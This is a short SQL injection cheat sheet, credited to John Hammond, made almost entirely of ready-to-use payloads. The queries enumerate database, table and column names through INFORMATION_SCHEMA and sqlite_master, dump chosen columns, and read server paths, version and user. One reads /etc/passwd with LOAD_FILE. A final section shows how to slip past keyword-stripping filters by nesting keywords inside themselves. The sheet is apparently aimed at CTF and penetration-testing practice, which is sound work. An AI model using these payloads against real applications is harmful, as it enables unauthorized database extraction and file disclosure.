 SQL Injection Syntax Cheatsheet
=============

> John Hammond 


Leak all of the database names as a string
-----------------------------

```
SELECT GROUP_CONCAT( SCHEMA_NAME ) FROM INFORMATION_SCHEMA.SCHEMATA
```

Leak all of the tables in one database as a string
-----------

```
SELECT GROUP_CONCAT( TABLE_NAME ) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA="<DATABASE_NAME>"
```


__TO DO THIS FOR SQLite:__

```
SELECT GROUP_CONCAT(name) FROM sqlite_master WHERE type='table')
```

Leak the column names of a table as a string
------------------

```
SELECT GROUP_CONCAT( COLUMN_NAME ) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME="<TABLE NAME>"
```

__TO LEAK THE WHOLE SCHEMA OF A TABLE IN SQLITE:__

```
SELECT GROUP_CONCAT(sql) FROM sqlite_master WHERE type='table')
```


Leak the ONE column from a table
------------------

```
SELECT GROUP_CONCAT( "<COLUMN_NAME>" ) FROM "<TABLE NAME>"
```

___IF THIS DOES NOT WORK, TRY WITHOUT THE QUOTES!!___


Get the path of the running MySQL instance
------------------


```
SELECT @@datadir
```

Get the version of the running MySQL instance
------------------

```
SELECT @@version
```


Get current user
------------------


```
SELECT user();
```

```
SELECT system_user();
```

Read a file
------------------


```
SELECT LOAD_FILE("/etc/passwd");
```


Etcetera..
------

Some applications try to replace keywords with an empty string. If this is the case, try and trick it by placing the keyword inside of itself. This is devious! 

```
frfromom => from
oorr => or
loaload_filed_file => load_file
selselectect => select
```